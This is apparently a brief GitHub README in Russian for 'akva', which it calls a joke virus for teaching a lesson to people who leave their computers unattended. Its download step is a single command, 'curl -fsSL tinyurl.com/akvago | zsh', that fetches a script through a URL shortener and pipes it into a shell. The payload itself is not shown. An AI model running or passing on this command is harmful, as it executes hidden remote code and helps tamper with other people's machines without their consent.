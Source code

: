 # akva

шутливый вирус для проучивания тех, кто бросает комп без присмотра

Скачать:
`curl -fsSL tinyurl.com/akvago | zsh`
